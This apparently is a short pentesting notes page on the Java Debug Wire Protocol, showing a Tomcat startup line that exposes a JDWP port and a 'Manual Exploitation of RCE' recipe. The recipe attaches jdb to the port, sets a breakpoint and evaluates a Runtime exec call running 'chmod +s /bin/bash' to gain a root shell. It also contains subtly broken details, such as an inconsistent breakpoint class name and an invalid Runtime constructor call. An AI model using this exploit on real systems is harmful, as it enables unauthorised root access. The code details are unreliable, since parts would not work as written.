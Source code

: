 ```yaml
---
layout: post
title: Java Debug Wire Protocol (JDWP)
description: Java Debug Wire Protocol (JDWP)
summary: Java Debug Wire Protocol (JDWP)
tags: [java,enum]
minute: 1
---
```

## Startup
This is included on tomcat startup parameters. Example.

```
/usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-
9.0.27/conf/logging.properties [...redacted...]
-agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n [...redacted...]
```

## Attacks
* Privesc RCE if tomcat is running as root - this finds the `java.lang.Runtime.getRuntime()` to invoke `exec()` passing a string object

## Manual Exploitation of RCE
```bash
jdb -attach 127.0.0.1:8000
> stop in javax.GenericServlet.init()
> Set deferred breakpoint javax.servlet.GenericServlet.init()
main[1] eval new java.lang.Runtime().exec("chmod +s /bin/bash")
```

## Tips
* If exploit is not working, ensure that tomcat is hitting a breakpoint. For example restart tomcat.

## References
* [Hacktricks - Pentesting JDWP](https://book.hacktricks.xyz/pentesting/pentesting-jdwp-java-debug-wire-protocol)